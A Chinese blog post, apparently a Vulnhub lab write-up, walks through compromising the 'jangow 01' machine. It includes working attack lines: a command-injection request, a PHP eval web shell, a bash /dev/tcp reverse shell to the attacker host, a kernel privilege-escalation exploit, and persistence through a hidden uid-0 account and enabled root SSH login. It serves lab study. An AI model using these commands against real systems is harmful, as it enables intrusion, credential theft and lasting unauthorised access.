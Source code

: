 ```yaml
---
layout: post
title: jangow 01
subtitle: jangow 01
date: 2022-12-15 12:04
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
---
```


## jangow 01

靶机 ip：192.168.56.118

kali 攻击机 ip：172.17.46.146

### 1. nmap 扫描 IP

靶机 IP 已知：

```shell
nmap -A 192.168.56.118
```

![image-20221215120422075.png](https://img.ghostliner.top/KlHhcv.png)

### 2. 扫描目录

```shell
dirb http://192.168.56.118
```

```
http://192.168.56.118/server-status
http://192.168.56.118/site/index.html
http://192.168.56.118/site/wordpress/index.html
```

### 3. 访问网站

<http://192.168.56.118>

点击`site`进入新的页面，查看源码发现：

![image-20221215121549451.png](https://img.ghostliner.top/HuwqNT.png)

```html
<li class="nav-item">
  <a class="nav-link" href="busque.php?buscar=">Buscar</a>
</li>
```

在地址栏输入参数判断此处有命令执行漏洞

![image-20221215121829007.png](https://img.ghostliner.top/OJ5Thb.png)

使用 burp suit 进一步测试

```
cat+busque.php
<?php system($_GET['buscar']); ?>
echo+"bash+-c+'0<%262-%3bexec+22<>/dev/tcp/172.17.46.146/4444%3bsh+<%2622+>%2622+2>%2622'"+>+shell.sh
find+/+-perm+-4000+2>/dev/null
```

经测试，能写入文件，但无法 ping 通 kaliIP，无法反弹 shell。使用一句话木马+antsword

```
buscar=echo '<?php @eval($_POST['para']); ?>' > test.php
```

成功连接，发现/site/wordpress/config.php 内容有用户名和密码。访问后报错

```
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

发现/.backup 文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

尝试修改 config.php 中 database 和 username。再次访问仍报错

目标机开启了 21 和 80 端口。尝试用户名密码登录 ftp

```
ftp 192.168.56.118
desafio02 abygurl69
失败
ftp 192.168.56.118
jangow01 abygurl69
成功
```

![image-20221219214101588.png](https://img.ghostliner.top/W3o0Y2.png)

进入后是在/var/www 目录下，没什么收获，继续用 AntSword

发现 /home/jangow01/user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

MD5 解码

```
查询结果：
[空密码]/[Empty String]
```

```
systemd-private-d6139d42208945be97253054fca34ee2-systemd-timesyncd.service-cCdsLz
```

### 4. 反弹 shell

使用 AntSword 的 shell 有时无回显，尝试反弹 shell

在 site 目录下新建 shell.sh 写入如下内容，在终端执行

```shell
bash -c '0<&2-;exec 22<>/dev/tcp/192.168.56.102/443;sh <&22 >&22 2>&22'
```

==只有 443 端口可以，其他端口无法连接==

kali 成功获取 shell

![image-20221220154726740.png](https://img.ghostliner.top/ReFxXh.png)

升级 tty shell，输入

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20221220154914986.png](https://img.ghostliner.top/JWFfqu.png)

成功升级界面，并切换到 jangow01 用户

![image-20221220155027321.png](https://img.ghostliner.top/At7d64.png)

可尝试 suid 提权。

这里选择内核漏洞提权

### 5. 提升权限

```shell
uname -a #查看系统内核
# Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
searchsploit ubuntu 4.4.0-31 #查找相关漏洞
```

![image-20221220155427153.png](https://img.ghostliner.top/gFLQso.png)

使用**linux/local/45010.c** 。将文件复制下来，并编译

```shell
searchsploit -m 45010.c
gcc 44298.c -o 45010
```

![image-20221220155715500.png](https://img.ghostliner.top/mPn78M.png)

可以使用 ftp 或 AntSword 上传到目标机**/home/jangow01/**目录下

```
ftp 192.168.56.118
jangow01
abygurl69
cd /home/jangow01
put 45010
ls
```

![image-20221220160244999.png](https://img.ghostliner.top/8ZDtbp.png)

**chmod +x 45010** 添加权限后执行

成功获取 root 权限。发现 root 目录下 proof.txt 文件，内容：

```
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

MD5 查询结果：
[空密码]/[Empty String]

### 6. 权限维持

添加 root 用户

```shell
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

排查技巧：

```shell
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

查看防火墙状态

```shell
ufw status
cat /etc/ufw/user.rules
```

打开或关闭某个端口

```shell
sudo ufw allow smtp　允许所有的外部IP访问本机的25/tcp (smtp)端口
udo ufw allow 22/tcp 允许所有的外部IP访问本机的22/tcp (ssh)端口
sudo ufw allow 53 允许外部访问53端口(tcp/udp)
sudo ufw allow from 192.168.1.100 允许此IP访问所有的本机端口
sudo ufw allow proto udp 192.168.0.1 port 53 to 192.168.0.2 port 53
sudo ufw deny smtp 禁止外部访问smtp服务
sudo ufw delete allow smtp 删除上面建立的某条规则
```

开启 22 端口

```shell
ufw allow 22/tcp
vi /etc/ssh/sshd_config
# 将#PermitRootLogin without-password改为PermitRootLogin yes
echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config
输入/etc/init.d/ssh restart ，重启下ssh服务
```
